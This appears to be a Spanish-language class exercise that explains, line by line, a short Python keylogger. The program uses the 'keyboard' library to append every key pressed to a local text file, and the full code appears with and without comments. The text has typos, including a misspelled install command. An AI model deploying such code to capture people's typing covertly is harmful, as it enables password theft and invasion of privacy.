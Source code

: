 # SI_T5_P1
import keyboard

El impor keyboard es para añadir la libreria de keyboard la cual hemos instalado previamente con el sigueitne comando:

pip install keyboar.

Luego creamos una función a la que llamaremos imprime\_tecla, y añadimos una variable llamada tecla.

def imprime\_tecla(tecla):

Cada vez que se pulse una tecla pondra su nombre, por ejemplo si presionamos la a sladra 'a' si presionamos la tecla espacio saldra 'space'.

print(tecla.name)

Para guardar todas las teclas presionadas pondremos la siguiente linea

 Abrir el archivo en modo 'a' para agregar el texto al final

with open('texto.txt', 'a') as file:

abre el archivo texto.txt y la 'a' es para que cada vez que se añade un texto no borre lo que ya haya


if tecla.name == 'space':

Lo que nos permite hacer esto es que si la tecla pulsada es el espacio  en vez de poner 'space' deje un espacio

file.write(' ')

else:

sino que ponga el nombre de la tecla

file.write(tecla.name)


keyboard.on\_press(imprime\_tecla)

Este comando nos permite que la funcion quede registrada cada vez que se pulse una tecla.

Nos manitene el programa abierto esperandoa a la entrada del teclado

keyboard.wait()

El codigo sin comentarios quedaría así:

import keyboard

def imprime\_tecla(tecla):

print(tecla.name)

with open('texto.txt', 'a') as file:

if tecla.name == 'space':

file.write(' ')

else:

file.write(tecla.name)

keyboard.on\_press(imprime\_tecla)

keyboard.wait()

Funciona,teniendo que ejecutar el archivo .py, una vez ejecutas el archivo se guardan todas las teclas pulsadas en el archivo.txt

Aspectos a mejroar:Evitar que se escriban teclas no deseadas,codigo mas limpio ya que si en un futuro se mejora se debe de ver con claridad.


